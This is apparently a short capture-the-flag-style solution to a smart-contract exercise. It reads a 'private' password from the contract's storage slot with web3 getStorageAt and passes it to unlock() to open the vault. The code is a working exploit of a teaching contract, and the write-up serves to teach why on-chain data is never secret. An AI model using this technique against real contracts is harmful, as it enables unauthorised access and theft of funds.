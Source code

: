 ## Overview
1. Even though the password variable is marked as private, we can still look at the storage data on the blockchain directly
2. So we'd get the password then call unlock with the password

## Code
```
// locked is in slot 0 and therefore password is in slot 1
const pw = await web3.eth.getStorageAt(contract.address, 1)

await contract.unlock(pw)

// Check to see if contract is still locked
await contract.locked() 
```
